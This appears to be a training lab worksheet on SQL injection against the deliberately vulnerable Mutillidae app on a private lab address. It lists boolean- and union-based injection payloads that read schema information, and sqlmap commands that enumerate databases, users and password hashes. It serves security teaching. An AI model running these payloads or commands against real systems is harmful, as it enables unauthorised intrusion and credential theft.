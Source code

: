 #### Exercise 4: Boolean-Based SQL Injection
- **Objective**: Manipulate queries to obtain true/false responses.
- **Procedure**:
  1. Test with payloads:
     - Example: `' AND 1=1 -- ` (True)
     - Example: `' AND 1=2 -- ` (False)
  2. Note any changes in application behavior.

#### Exercise 5: Union-Based SQL Injection
- **Objective**: Retrieve data from other tables using the UNION operator.
- **Procedure**:
  1. Execute the following payload:
     ```plaintext
     ' UNION SELECT 1, version(), user(), database()-- 
     ```
  2. Document the output.

#### Exercise 6: Retrieving Database Information
- **Objective**: Extract tables and columns from the database.
- **Procedure**:
  1. Access the tables:
     ```plaintext
     ' UNION SELECT NULL, table_name, NULL FROM information_schema.tables-- 
     ```
  2. Access the columns in a specific table:
     ```plaintext
     ' UNION SELECT NULL, column_name, NULL FROM information_schema.columns WHERE table_name='users'-- 
     ```

---

### Automated Testing with SQLMap

#### Exercise 7: Basic Commands
- **Objective**: Use SQLMap to check for vulnerabilities.
- **Procedure**:
  1. **Check for vulnerabilities**:
     ```bash
     sqlmap -u "http://192.168.177.134/mutillidae/index.php?page=userinfo.php&username=Abba&password=abba" --dbs
     ```
  2. **Retrieve the current database**:
     ```bash
     sqlmap -u "http://192.168.177.134/mutillidae/index.php?page=userinfo.php" --current-db
     ```

#### Exercise 8: Enumerate Users and Passwords
- **Objective**: Extract user and password information.
- **Procedure**:
  1. **List users**:
     ```bash
     sqlmap -u "http://192.168.177.134/mutillidae/index.php?page=userinfo.php" --users
     ```
  2. **Get passwords**:
     ```bash
     sqlmap -u "http://192.168.177.134/mutillidae/index.php?page=userinfo.php" --passwords
     ```

